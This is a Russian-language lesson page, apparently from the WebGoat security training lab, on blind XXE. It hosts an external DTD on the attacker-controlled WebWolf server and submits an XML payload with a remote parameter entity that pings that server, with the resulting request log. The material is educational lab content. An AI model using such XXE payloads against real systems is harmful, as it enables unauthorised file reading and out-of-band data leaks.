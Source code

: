 == Слепой XXE

В некоторых случаях вы не увидите никаких выходных данных, потому что, хотя ваша атака могла сработать, поле не отражается в выходных данных страницы.
Или ресурс, который вы пытаетесь прочитать, содержит недопустимый символ XML, что приводит к сбою парсера.
Давайте начнем с примера, в этом случае мы ссылаемся на внешний DTD, который мы контролируем на нашем собственном сервере.

Как злоумышленник, вы имеете WebWolf под своим контролем (*это может быть любой сервер под вашим контролем.*), вы можете, например, использовать этот сервер, чтобы пинговать его с помощью `webWolfRootLink:landing[noLink]`

Как мы используем эту конечную точку, чтобы проверить, можем ли мы выполнить XXE?

Мы можем снова использовать WebWolf для размещения файла с именем `attack.dtd`, создать этот файл со следующим содержимым:

[source, subs="macros, specialcharacters"]
----
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY ping SYSTEM 'webWolfRootLink:landing[noLink, target=landing]'>
----

Теперь отправьте форму и измените XML, используя:

[source, subs="macros, specialcharacters"]
----
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "webWolfLink:[webWolfLink]">
%remote;
]>
<comment>
  <text>test&ping;</text>
</comment>
----

Теперь в WebWolf перейдите в раздел «Входящие запросы», и вы увидите:

[source]
----
{
  "method" : "GET",
  "path" : "/landing",
  "headers" : {
    "request" : {
      "user-agent" : "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0",
    },
  },
  "parameters" : {
    "test" : [ "HelloWorld" ],
  },
  "timeTaken" : "1"
}
----

Итак, с помощью XXE мы можем пинговать наш собственный сервер, что означает возможность внедрения XXE. Итак, с помощью внедрения XXE мы в принципе можем достичь того же эффекта, что и в начале с помощью команды curl.
